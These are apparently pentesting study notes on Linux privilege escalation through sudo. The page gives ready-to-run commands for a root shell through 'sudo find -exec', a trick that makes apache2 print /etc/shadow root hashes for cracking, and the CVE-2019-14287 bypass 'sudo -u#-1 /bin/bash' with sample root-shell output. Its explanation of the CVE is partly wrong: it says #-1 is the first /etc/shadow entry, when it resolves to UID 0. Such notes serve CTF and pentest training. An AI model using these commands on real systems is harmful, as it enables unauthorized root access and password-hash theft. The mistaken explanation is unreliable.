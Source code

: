 # Sudo Abuse

running sudo without password is one of the most dangerous things in linux. we can use sudo to run binaries and apps that are vulnerable to shell escape sequence and use them to get a root shell.

GTFObins is a great resource for linux privilege escalation and will help you find vulnerable binaries and methods to use them.

{% embed url="https://gtfobins.github.io/" %}

**sudo -l** >>> see what executable binaries in the system we can use with sudo

![](../../../.gitbook/assets/sudo.png)

for example we search for find command in the web page to see how we can use it to abuse sudo

![](../../../.gitbook/assets/sudo2.png)

we can use this for prives

#### `sudo find . -exec /bin/sh \; -quit`

another example would be apache2 which we can ru usung sudo but it doesnt have an scape sequence to abuse

but there are other methods for this for example apache2 will return an error while parsing a configuration file when it doesnt understand it and it will print out any line of the given file

#### `sudo apache2 -f /etc/shadow`

apache wont understand the /etc/shadow file entries as a config file so it will print out any line that it doesnt understand which will be the root hashed password

![](../../../.gitbook/assets/sudo3.png)

we can now copy and crack the root hash

## CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u #$((0xffffffff))" command.

the exploit code can be found here.

{% embed url="https://www.exploit-db.com/exploits/47502" %}

Check for the user sudo permissions

#### `sudo -l`

User hacker may run the following commands on kali:

#### `(ALL, !root) /bin/bash`

#### So user hacker can't run /bin/bash as root (!root)

User hacker sudo privilege in /etc/sudoers

#### `# User privilege specification` `root ALL=(ALL:ALL) ALL`

#### `hacker ALL=(ALL,!root) /bin/bash`

With ALL specified, user hacker can run the binary /bin/bash as any user

### Exploit

**sudo -u#-1 /bin/bash** → #-1 means the the first entry of the /etc/shadow file (root) so we can specify any user ID with a + like: #+1000

Example :

#### `hacker@kali:~$ sudo -u#-1 /bin/bash` `root@kali:/home/hacker# id` `uid=0(root) gid=1000(hacker) groups=1000(hacker)` `root@kali:/home/hacker#`

#### Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id and /bin/bash is executed with root permission Proof of Concept Code :

#### `python3 sudo_exploit.py`
